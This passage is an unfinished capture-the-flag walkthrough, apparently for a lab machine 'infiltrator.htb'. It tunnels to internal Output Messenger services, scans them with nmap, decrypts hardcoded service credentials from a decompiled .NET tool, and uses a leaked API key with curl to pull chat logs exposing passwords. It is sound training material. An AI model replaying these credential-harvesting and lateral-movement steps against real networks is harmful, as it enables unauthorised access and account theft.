> `240.0.0.1/32` is a special address used in ligolo-ng that is reserved for localhost only

I should now be able to access the internal ports in the 14000 range

## Scanning internal services

```python
nmap -p 14118,14119,14121,14122,14123,14125,14126,14127,14128,14130,14406 -A --min-rate=50 -sT -Pn 240.0.0.1
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-05 17:27 +0100
Stats: 0:02:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 81.82% done; ETC: 17:30 (0:00:36 remaining)
Nmap scan report for 240.0.0.1
Host is up (0.0085s latency).

PORT      STATE SERVICE     VERSION
14118/tcp open  ssl/unknown
|_ssl-date: 2026-10-05T16:31:33+00:00; -6s from scanner time.
| ssl-cert: Subject: commonName=Output Messenger/organizationName=Srimax/stateOrProvinceName=Tamil Nadu/countryName=IN
| Not valid before: 2016-04-14T10:22:17
|_Not valid after:  2066-04-02T10:22:17
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    Ouput Messenger Server - Switching Server V2.0.42.0
14119/tcp open  ssl/unknown
|_ssl-date: 2026-10-05T16:31:32+00:00; -7s from scanner time.
| ssl-cert: Subject: commonName=Output Messenger/organizationName=Srimax/stateOrProvinceName=Tamil Nadu/countryName=IN
| Not valid before: 2016-04-14T10:22:17
|_Not valid after:  2066-04-02T10:22:17
14121/tcp open  unknown
14122/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    Ouput Messenger Server - Switching Server V2.0.42.0
14123/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-title: Output Messenger
|_Requested resource was http://240.0.0.1:14123/ombro/index.html
14125/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
|_http-server-header: Microsoft-HTTPAPI/2.0
14126/tcp open  http        Apache httpd 2.4.9 ((Win32) PHP/5.5.12)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.9 (Win32) PHP/5.5.12
|_http-title: Index of /
14127/tcp open  unknown
14128/tcp open  unknown
14130/tcp open  unknown
14406/tcp open  mysql       MariaDB 5.5.5-10.1.19
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.19-MariaDB
|   Thread ID: 6
|   Capabilities flags: 63487
|   Some Capabilities: Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Support41Auth, ConnectWithDatabase, SupportsTransactions, SupportsCompression, IgnoreSigpipes, LongColumnFlag, FoundRows, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, LongPassword, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: D^-e6|1x/z=`M?4%^)O4
|_  Auth Plugin Name: mysql_native_password
```

## HTTP (14123 - Internal)



There is a logon form here



The credentials found earlier work `k.turner:MessengerApp@Pass!`



In the dev_chat there is talk on an application called `UserExplorer.exe` which sounds like it makes LDAP queries

## HTTP (14125 - Internal)



This page returs a JSON response

## HTTP (14126 - Internal)



But however going inside the `/output` dir shows a 404

## Access to the portal using output messenger client

https://www.outputmessenger.com/lan-messenger-downloads/

There is a client here which i should be able to download

Ill download the ubuntu client 64 bit

```python
sudo dpkg -i OutputMessenger_amd64.deb 
```

Ill then just start it using `ouputmessenger`



I can then logon by setting the server ip to `240.0.0.1:14121` and using the `k.turner` credentials





I have found some more content in the output wall

```python
m.harris:D3v3l0p3r_Pass@1337!
```

Found some credentials

## Compromising `winrm_svc`



Those credentials can log me into `m.harris` account where he has a chat with the admin and i can download the application

```python
mv ../../Output\ Messenger/FBBB/Received\ Files/Feb\ 2024/UserExplorer.exe .
```

Downloading the file saves it to the application dir

```python
file UserExplorer.exe 
UserExplorer.exe: PE32 executable for MS Windows 4.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```

Its thankfully a .NET application which means it will be easier to reverse engineer



Ill load the file into ILSpy and i can see there is some info hardcoded in the code

```python
string text5 = "winrm_svc";
string cipherText = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";

text3 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", cipherText);
```

It looks like there is a default option to use the `winrm_svc` creds here to search the domain for users, but the app also takes any domain creds to run searches

When the default option is used it looks like it calls the decryptor function and gives it the key and the ciphertext to decrypt the credetials for `winrm_svc`

```python
public class Decryptor
{
	public static string DecryptString(string key, string cipherText)
	{
		using Aes aes = Aes.Create();
		aes.Key = Encoding.UTF8.GetBytes(key);
		aes.IV = new byte[16];
		ICryptoTransform transform = aes.CreateDecryptor(aes.Key, aes.IV);
		using MemoryStream stream = new MemoryStream(Convert.FromBase64String(cipherText));
		using CryptoStream stream2 = new CryptoStream(stream, transform, CryptoStreamMode.Read);
		using StreamReader streamReader = new StreamReader(stream2);
		return streamReader.ReadToEnd();
	}
}
```

This is the decryptor function that is used, it looks like it decoded from base64 and then decrpyts using AES key and byte length, then the function is called again, so it runs the cycle twice

> base64 decode -> AES decrpyt using key and byte length -> base64 decode -> AES decrpyt using key and byte length = winrm_svc password



Ill replicate the steps the code takes to decrypt it, and ill get the password

```python
winrm_svc:WinRm@$svc^!^P
```

```python
nxc smb dc01.infiltrator.htb -u winrm_svc -p 'WinRm@$svc^!^P'                        
SMB         10.129.68.136   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.68.136   445    DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P
```

This user is compromised



This user is obviously part of remote management and also `service_management`

## Analysis of DB files

```python
evil-winrm-py PS C:\users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> ls


    Directory: C:\users\winrm_svc\AppData\Roaming\Output Messenger\JAAA


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        2/25/2024   7:20 AM                Audios                                                                 
d-----        2/25/2024   7:20 AM                CalendarFiles                                                          
d-----        2/25/2024   7:26 AM                Log                                                                    
d-----        2/25/2024   7:20 AM                MailInbox                                                              
d-----        2/25/2024   7:20 AM                MailSent                                                               
d-----        2/25/2024   7:20 AM                Received Files                                                         
d-----        2/25/2024   7:20 AM                Screenshots                                                            
d-----        2/25/2024   7:20 AM                Temp                                                                   
d-----        2/25/2024   7:20 AM                Theme                                                                  
-a----        2/25/2024   7:20 AM          29696 OM.db3                                                                 
-a----        2/25/2024   7:20 AM          13312 OT.db3                                                                 


evil-winrm-py PS C:\users\winrm_svc\AppData\Roaming\Output Messenger\JAAA>
```

There are some interesting `.db3` files

Ill download em both, and open them with sqlitebrowser

There is nothing too interesting in `OT.db3` but the other file could hold some interesting info



Looks like maybe some keys that could be useful later on 

## Access to the output messenger app as `winrm_svc`



Logging in as this user, i see several chats, from them i can infer this user is an admin of some sort



There is two users requesting things as if this user is some sort of admin

If i look in settings i can also make changed to the general chat so more evidence i am an admin on this app



One user is getting pop ups periodically, they also say the password is in the `chiefs_marketing_chat`



There is also an API key stored in this users notes

```python
lan_managment  api key 558R501T5I6024Y8JV3B7KOUN1A518GG
```

## Output messenger API interaction

https://support.outputmessenger.com/authentication-api/

From here i can see that the application takes the `API-KEY` as a HTTP header to auth

The website says port 14125 is the API

```python
curl -s http://240.0.0.1:14125/api/users -H 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' | jq .
{
  "rows": [
    {
      "user": "admin",
      "displayname": "Admin",
      "group": "Administration",
      "role": "A",
      "email": "",
      "phone": "",
      "title": "",
      "status": "online"
    },
    {
      "user": "D.anderson",
      "displayname": "D.anderson",
      "group": "Marketing Team",
      "role": "U",
      "email": "anderson@infiltrator.htb",
      "phone": "+0 123 443 699",
      "title": "Marketing",
      "status": "offline"
    },
```

My suspicion was correct

```python
curl -s http://240.0.0.1:14125/api/chatrooms -H 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' | jq . 
{
  "rows": [
    {
      "room": "Chiefs_Marketing_chat",
      "roomusers": "O.martinez|0,A.walker|0"
    },
    {
      "room": "Dev_Chat",
      "roomusers": "Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "General_chat",
      "roomusers": "Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "Marketing_Team_chat",
      "roomusers": "D.anderson|0,L.clark|0"
    }
  ],
  "success": true
}
```

I can use the documentation to play with the API

`Chiefs_Marketing_chat` this is the chat im most interested in since this is where the user says she shared her password

```python
curl -s 'http://240.0.0.1:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2010/01/01&todate=2027/01/01' -H 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' | jq .

...[SNIP]...

<div class='msg_body' >O.martinez : m@rtinez@1996!</div>
```

I have found a password, however these dont work on the domain but they do work on the app

## UNFINISHED
